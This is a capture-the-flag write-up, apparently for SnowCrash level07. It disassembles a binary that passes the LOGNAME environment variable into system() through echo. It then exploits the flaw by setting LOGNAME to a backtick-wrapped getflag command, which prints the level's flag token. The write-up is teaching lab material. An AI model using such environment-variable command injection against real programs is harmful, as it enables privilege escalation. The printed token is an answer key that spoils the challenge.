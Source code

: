 ## LEVEL 07

---

In this level, we have a compiled file called `level07`.

```shell
$ gdb -q level07
Reading symbols from /home/user/level07/level07...done.
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:	    push   %ebp
   0x08048515 <+1>:	    mov    %esp,%ebp
   0x08048517 <+3>:	    and    $0xfffffff0,%esp
   0x0804851a <+6>:	    sub    $0x20,%esp /* Allocate 32 bytes */
   [...]
   0x0804856f <+91>:	movl   $0x8048680,(%esp)
   0x08048576 <+98>:	call   0x8048400 <getenv@plt>
   0x0804857b <+103>:	mov    %eax,0x8(%esp)
   0x0804857f <+107>:	movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:	lea    0x14(%esp),%eax
   0x0804858b <+119>:	mov    %eax,(%esp)
   0x0804858e <+122>:	call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:	mov    0x14(%esp),%eax
   0x08048597 <+131>:	mov    %eax,(%esp)
   0x0804859a <+134>:	call   0x8048410 <system@plt>
   0x0804859f <+139>:	leave
   0x080485a0 <+140>:	ret
End of assembler dump.
(gdb) x/s 0x8048680
0x8048680:	 "LOGNAME"
(gdb) x/s 0x8048688
0x8048688:	 "/bin/echo %s "
(gdb) x/32s $eax
0x804b070:	 "/bin/echo level07 "
```

This program gets the environment variable called `LOGNAME`, then uses `echo` with this variable as a parameter.

So, I will use this `echo` function to execute `getflag`.

```shell
$ export LOGNAME='`getflag`'
level07@SnowCrash:~$ ./level07
Check flag. Here is your token: fiumuikeil55xe9cu4dood66h
```